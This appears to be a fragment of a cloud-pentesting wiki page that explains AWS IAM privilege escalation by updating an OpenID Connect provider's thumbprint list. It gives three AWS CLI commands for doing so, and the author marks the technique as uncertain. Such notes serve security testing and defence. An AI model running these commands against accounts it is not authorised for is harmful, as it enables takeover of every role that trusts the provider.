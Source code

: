 (Unsure about this) If an attacker has these **permissions** he could add a new **Thumbprint** to manage to login in all the roles trusting the provider.

{% code overflow="wrap" %}
```bash
# List providers
aws iam list-open-id-connect-providers
# Optional: Get Thumbprints used to not delete them
aws iam get-open-id-connect-provider --open-id-connect-provider-arn <ARN>
# Update Thumbprints (The thumbprint is always a 40-character string)
aws iam update-open-id-connect-provider-thumbprint --open-id-connect-provider-arn <ARN> --thumbprint-list 359755EXAMPLEabc3060bce3EXAMPLEec4542a3
```
{% endcode %}

## References

* [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/)

<details><summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.khulnasoft.com/courses/arte"><strong>htARTE (ByteBreach AWS Red Team Expert)</strong></a><strong>!</strong></summary></details>
